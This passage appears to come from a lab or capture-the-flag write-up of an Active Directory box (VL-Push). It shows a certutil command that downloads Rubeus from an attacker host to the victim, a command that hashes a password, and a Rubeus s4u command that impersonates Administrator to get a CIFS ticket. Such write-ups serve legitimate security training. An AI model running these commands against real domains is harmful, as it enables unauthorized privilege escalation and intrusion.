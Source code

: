 Next up is transferring the Rubeus binary to the victim machine using certutil:
```powershell
certutil -urlcache -f http://10.8.0.49/Rubeus.exe Rubeus.exe
```
![_install](/assets/img/VL-Push/22.png)

Now we need to use Rubeus to first hash the plaintext password into RC4_HMAC form.
```powershell
cmd /c C:\temp\Rubeus.exe hash /password:P@ssw0rd123!
```
![_install](/assets/img/VL-Push/23.png)
Finally we can use Rubeus' s4u module to get a service ticket for the service name (sname) we want to "impersonate". I used the following Rubeus command to do this:
```powershell
cmd /c C:\temp\Rubeus.exe s4u /user:attackersystem$ /rc4:7DFA0531D73101CA080C7379A9BFF1C7 /impersonateuser:Administrator /msdsspn:CIFS/MS01.push.vl /nowrap
```
![_install](/assets/img/VL-Push/24.png)
